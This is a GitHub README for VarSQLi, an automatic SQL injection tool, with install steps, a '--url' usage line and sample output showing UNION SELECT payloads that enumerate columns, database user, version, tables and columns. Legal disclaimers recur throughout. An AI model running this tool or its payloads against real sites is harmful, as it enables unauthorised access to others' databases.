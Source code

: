 # Variable-SQL-Injection
### Note From VarSQLi
> - _admin_ : [Twitter](https://twitter.com/Anonym0us_VNPC)
> - _Website_ : [Ghost Man](https://ghostmanews.blogspot.com)
> - _facebook_ : [adonis bertha](https://www.facebook.com/francesca.savino.18?mibextid=ZbWKwL)

VarSQLi allows users to search for and exploit SQL injection vulnerabilities automatically. The tool employs techniques such as input string testing, SQL syntax analysis, and SQL statement testing to determine if a system is susceptible to SQL injection.
> warning: the tool will not have a dump database function, for the sake of protecting other people's private information, and absolutely not used for any other bad purpose, especially exploiting government and school sites  learn
### Screenshot
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/Screenshot_2023-08-02-14-41-26-65.jpg">

> However, using VarSQLi or any other database exploitation tool to attack someone else's database is illegal and can have serious consequences. Illegally accessing someone else's database may violate information security regulations and ethical standards in information technology.

Using VarSQLi or any unauthorized database exploitation tool can lead to imprisonment and criminal liability. We must adhere to security regulations and policies, respect privacy rights, and refrain from compromising others' systems and data.

> Instead of relying on database exploitation tools, we should focus on enhancing our knowledge of security, understanding common security vulnerabilities, and implementing security measures to protect our systems and data. Collaborating with security experts and complying with legal regulations will ensure safety and ethical use of information technology

### setup - install tool
To set up VarSQLi, follow these steps:

1. Clone the VarSQLi repository from GitHub using the following command:
- `git clone https://github.com/Phamchie/varsqli`
2. Navigate to the VarSQLi directory:
- `cd varsql`
3. Install the required dependencies by running the setup script:
- `python3 setup.py`
- `python3 varsqli.py --help`
- Full Source Setup
```
git clone https://github.com/Phamchie/varsqli/
cd varsqli
python3 setup.py
python3 varsqli.py --help
```
Once the setup is complete, you can start using VarSQLi to identify and exploit SQL injection vulnerabilities. However, always ensure that you have proper authorization and adhere to legal and ethical guidelines when conducting security assessments.

#### How To Injection - Exploit 
- You can see that in the `--help` section, there is only one mode, `--url` to update the url to attack
```
              ___
 _____         H  _____     _ _  {1.1.5}
|  |  |___ ___[,]|   __|___| |_|
|  |  | .'|  _[(]|__   | . | | | {Pham Chien}
 \___/|__,|_| [)]|_____|_  |_|_|
               V         |_|  ghostmanews.blogspot.com


[+] Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.

usage: varsqli.py [-h] [--url URL]

VarSQLi - Auto SQL Injection tools

options:
  -h, --help  show this help message and exit
  --url URL   URL Target (ex :
              https://test.com/yourpath_vulnsqli.php?id=1)
```
- To attack the target , you write the command :
-  `python3 varsqli.py --url < url vulerable >`
- the result will be
```
[INFO] Testing connect to target url..
[INFO] Testing IF the target url content is stable
[INFO] Target is the content stable..
[INFO] Testing 'Generic atline queries'..
[INFO] Testing 'UNION SELECT NUMBER COUNT COLUMNS (MySQL Select).'
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2--+-'
[INFO] Total Response Content HTML stable : 200 OK
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2,3--+-'
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-49-50-36.jpg">

- it is starting to attack, and after a while exploiting with UNION SELECT payloads to get the column number of the website, it will announce like this
- it is the number of columns, payload , target, user , database and the target's MySQL version
<img src="https://github.com/Phamchie/varsqli/blob/main/.github/workflows/Screenshot_2023-08-02-14-50-17-53.jpg?raw=true">

- like last version, we don't have the feature to print database name and MySQL user, but i guarantee that the latest update version of too right now will have that feature 😃..
- :)
- and here is the target database of tables and columns that VarSQLI has exploited
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-50-35-49.jpg">

- so we've come to the end, so what's the ending?

# Ending 
A tip and note to use :
- Can you see how dangerous the SQL injection vulnerability is, here is a piece of advice for you, this tool is only for the nature, is to show the database name, and will never provide  dump database for users only, to ensure the security of network security
> Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
- Contact : [phamchienlc06@gmail.com](phamchienlc06@gmail.com)
- Telegram Channel : [My Channel](https://t.me/Anon0psNews)
- Telegram : [Adonis Bertha](https://t.me/anonopsvn)
- website : [website](https://ghostmanews.blogspot.com)
